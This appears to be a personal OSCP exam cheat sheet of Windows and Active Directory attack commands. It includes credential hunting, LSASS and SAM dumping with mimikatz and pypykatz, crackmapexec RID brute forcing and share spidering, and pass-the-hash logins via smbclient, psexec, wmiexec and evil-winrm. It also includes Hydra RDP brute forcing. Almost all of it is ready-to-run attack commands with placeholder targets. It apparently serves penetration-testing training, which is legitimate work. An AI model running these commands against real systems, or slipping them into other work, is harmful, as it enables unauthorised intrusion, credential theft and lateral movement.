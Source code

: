 Port scan for Win:

```bash
nmap -sC -sV -A -Pn -p 53,88,135,139,445 $TARGET_IP -vv
```
OSCP guidance for enumeration:
---
#oscp #windows-enum #pen-200
```powershell
whoami /groups
(Get-PSReadlineOption).HistorySavePath
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember "$GROUP"
systeminfo
ipconfig /all
route print
netstat -ano
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-Process # or tasklist /SVC
Get-Process | findstr /V /R "svchost winlogon vm3dservice RuntimeBroker vmtoolsd SearchHost lsass"
```

```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\ -Include *.ini,*.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
net user $USER
runas /user:$USER cmd
```

Start new powershell with administrator privs:

```powershell
Start-Process PowerShell -verb runas
```

Reboot Windows:

```powershell
shutdown /r /t 0
```

Find which DotNet version is installed:
```powershell
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse | Get-ItemProperty -Name version -EA 0 | Where { $_.PSChildName -Match '^(?!S)\p{L}'} | Select PSChildName, version
```

use winpeas.exe, search for DPAPI: `_Checking for DPAPI Credential Files`_

```powershell
.\Seatbelt.exe -group=all
```

```powershell
$password = ConvertTo-SecureString $PASS -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($USER, $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
```

Run as administrator:
```powershell
Start-Process PowerShell -Verb RunAs
```

Check OS architecture / version:
```powershell
ver
wmic os get osarchitecture
hostname
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

Get OS patches:
```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

Get OS drives:
```powershell
wmic logicaldisk get caption,description,providername
```
Get network adapters and open ports:
```powershell
ipconfig /all
netstat -ano
```

Get routes:
```powershell
route PRINT
```

Get running processes:

```powershell
tasklist /SVC
```

# Get installed patches:

```powershell
wmic qfe
```

# Search for cleartext passwords:
```powershell
findstr /si password *.txt
findstr /spin "password" *.*
```

# Dump LSASS:
check for #SeDebugPrivilege

```powershell
whoami /priv
#run mimikatz
```

```bash
crackmapexec smb $TARGET_IP -u $USER -p $PASSWORD -M minidump
pypykatz lsa minidump lsass.DMP
```

Add domain NB name to /etc/hosts

```bash
crackmapexec smb $TARGET_IP -u '' -p ''
```

check for open shares

```bash
crackmapexec smb $TARGET_IP -u '' -p '' --shares
```

Enumerate users by brute forcing RID
#rid #bruteforce-rid

```shell
crackmapexec smb $AD_DOMAIN -u $USER -p '' --rid-brute 10000
#extract usernames
crackmapexec smb $AD_DOMAIN -u $USER -p '' --rid-brute 10000 | grep -o '\\[^ ]*' | awk -F'\\' '{print $2}' | uniq
```

Show all files and DIRs for guest:

```shell
crackmapexec smb $TARGET_IP -u 'guest' -p '' -M spider_plus
```

```shell
crackmapexec smb $TARGET_IP -u $USER -p $PASSWORD -M spider_plus --spider users
```

Parse the JSON from the previous cmd into readable form:

```shell
cat $TARGET_IP.json | jq '. |map_values(keys)'
```

Mount windows share:
```bash
sudo mount -o username=$USER,password=$PASSWORD -t cifs \\\\$TARGET_IP\$SHARE /mnt
```

wmiexec with hash:
#pass-the-hash #pth 
```bash
crackmapexec smb -u administrator -H $HASH -X "powershell -e ..."
```
smbclient:
#pass-the-hash 
```bash
smbclient \\\\$TARGET_IP\\$SHARE -U Administrator --pw-nt-hash $HASH
```

Try to connect to console:

```shell
impacket-psexec $USER:$PASSWORD@$TARGET_IP
```

```bash
impacket-wmiexec -hashes :$NTLM$ Administrator@$TARGET_IP
```

```shell
evil-winrm -i $TARGET_IP -u administrator -p $PASSWORD
```

```shell
evil-winrm -i $TARGET_IP -u administrator -H $HASH
```

```sh
crackmapexec winrm $TARGET_IP -u $USER -p $PASSWORD
```


Port 3389 RDP with clipboard enabled:

```bash
xfreerdp +clipboard /v:$TARGET_IP /u:$USER /cert:ignore
```

Connect with shared folder, and NLA :
```bash
xfreerdp +clipboard /v:$TARGET_IP /sec:nla /u:$USER /p:$PASSWORD  /cert:ignore /drive:shared,/home/kali/shared
```

Brute force RDP:

```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p $PASSWORD rdp://$TARGET_IP -I
```

mimikatz dump as local admin:
#dump #mimikatz
```powershell
.\mimikatz
privilege::debug
token::elevate
lsadump::sam
```